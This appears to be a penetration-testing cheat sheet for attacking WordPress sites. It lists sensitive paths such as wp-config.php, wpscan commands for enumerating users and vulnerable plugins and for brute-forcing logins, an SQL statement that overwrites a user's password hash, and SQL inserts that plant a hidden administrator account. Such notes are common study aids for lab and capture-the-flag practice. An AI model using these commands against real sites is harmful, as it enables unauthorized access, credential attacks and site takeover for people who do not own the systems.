 # wordpress

## Interesting Paths

```bash
# login page
/wp-login.php
/wp-admin/

# themes location
/wp-content/themes/<>/404.php

# plugin location
/wp-content/plugins/<>/

# config file
/wp-config.php

# site health leaks information about host/services etc. (authenticated)
/wp-admin/site-health.php?tab=debug
```

## wpscan

```bash
# do not pass url to login page.
$ wpscan --url IP [-e FLAG] [--plugins-detection [aggressive | mixed] -t 80] [--usernames <>] [--api-token XX]

# -e: enumerate <>
# [p| vp | ap]: [plgins | vulnerable plugins | all plugins]
# u: users
# t: themes
# --disable-tls-checks: for https

# blank for all enum
wpscan --url <IP> -e vp, u

# brute force login
wpscan --url <IP> --usernames <users> --passwords <pass> --max-threads 50
```

## Update Password

* [useotools.com/wordpress-password-hash-generator](https://www.useotools.com/wordpress-password-hash-generator)

```bash
# pass: kashz
UPDATE `wp_users` SET `user_pass` = '$P$BuFjqko0rfp9.fRk9Ld2CRc6hsG0nd0' WHERE ID = <>;
```

## make user admin | db: mysql

* [wpbeginner.com/how-to-add-an-admin-user-to-the-wordpress-database-via-mysql/](https://www.wpbeginner.com/wp-tutorials/how-to-add-an-admin-user-to-the-wordpress-database-via-mysql/)

```bash
# may need to change UID: 4
INSERT INTO wp_users VALUES ('4', 'kashz', MD5('kashz'), 'kashz', 'kashz@DOMAIN.COM', 'http://DOMAIN.COM/', '2020-12-16 14:51:26', '', '0', 'kashz');
INSERT INTO wp_usermeta VALUES (NULL, '4', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
INSERT INTO wp_usermeta VALUES (NULL, '4', 'wp_user_level', '10');
```
